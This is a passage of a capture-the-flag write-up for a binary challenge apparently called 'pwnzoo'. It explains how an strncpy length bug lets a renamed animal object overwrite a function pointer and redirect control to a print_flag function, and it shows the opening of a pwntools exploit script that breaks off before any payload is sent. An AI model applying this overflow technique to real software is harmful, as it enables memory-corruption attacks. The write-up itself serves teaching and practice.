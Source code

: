 If you have a look on the binary functions, you will notice that there is a "print_flag" function. So we don't need to inject shellcode, just successfully redirect the control flow to this function. 

change_name function

The change_name function receives the animal "object as parameter and sets the name within the object. Here the code (as BinaryNinjas HLIL):

```
00001412  printf(format: "New name: ")
0000141c  read_stdin_tmpbuf()
0000143b  *(strcspn(tmpbuf, data_20a8) + tmpbuf) = 0
00001446  uint64_t rax_3 = zx.q(*tmpbuf)
00001449  if (rax_3.b != 0)
00001449  {
00001473      strncpy(arg1 + 4, tmpbuf, strlen(arg1 + 4) + 1)
0000147f      rax_3 = puts(str: "Name changed!")
00001478  }
00001488  return rax_3

```
The "read_stdin_tmpbuf (not shown here) function uses fgets to read up to 128 bytes into tmpbuf variable. The change_name function then uses "strcspn" to identify the newline within that tmpbuf and uses this information to terminate the string by placing a \x00 byte at this localtion. Then, the string from tmpbuf gets copied into the "name" location of the animal object. 

If you look closely you can also identify the vulnerability: The length of the strncpy function is provided by strlen+1. This works fine for normal names. However, if we provide a name with 36 characters, we can overwrite the \x00 byte that was added by construct_anmimal. If we change the name a second time, we can also overwrite the pointer to the print_ function with a value that we control.

### Writing the exploit

Here the initial version of the exploit, which basically overwrites the pointers with eight "\x41" (A)s. The general idea is:

1. On initializatzion, provide a 36 character long name, which will overwrite the "\x00" byte from animal_construct
2. Change the name with a 44 character long name. This will overwrite the function pointer with our value
3. Invoke the speak function from the menu. This will call the overwritten pointer.

```python
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('./pwnzoo')
context.terminal = ['tmux', 'splitw', '-h']


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)


gdbscript = '''
tbreak main
tbreak construct_animal
continue
'''.format(**locals())

#io = remote('pwnzoo-7fb58ad8.challenges.bsidessf.net', 1234)
io = start()
io.recvuntil(b'dog?')
```